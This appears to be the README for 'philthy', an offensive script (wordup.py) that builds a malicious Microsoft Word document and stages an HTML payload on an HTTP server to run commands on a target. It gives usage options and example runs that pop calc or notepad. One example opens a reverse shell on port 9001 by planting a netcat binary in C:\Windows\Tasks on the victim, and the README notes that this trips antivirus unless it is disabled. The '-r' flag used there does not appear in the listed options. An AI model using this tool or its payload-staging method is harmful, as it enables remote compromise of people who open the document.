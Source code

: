 # philthy
attack with a philthy malicious Microsoft Word document and stage a payload with an HTTP server.


USAGE
usage: wordup.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./wordup.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)



SOME STUFF TO TEST:
Pop calc.exe:

$ python3 wordup.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./wordup.doc
[+] serving html payload on :8000

Pop notepad.exe:

$ python3 wordup.py -c "notepad"

Get a reverse shell on port 9001. Note, this downloads a netcat binary onto the victim and places it in C:\Windows\Tasks. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.

$ python3 wordup.py -r 9001
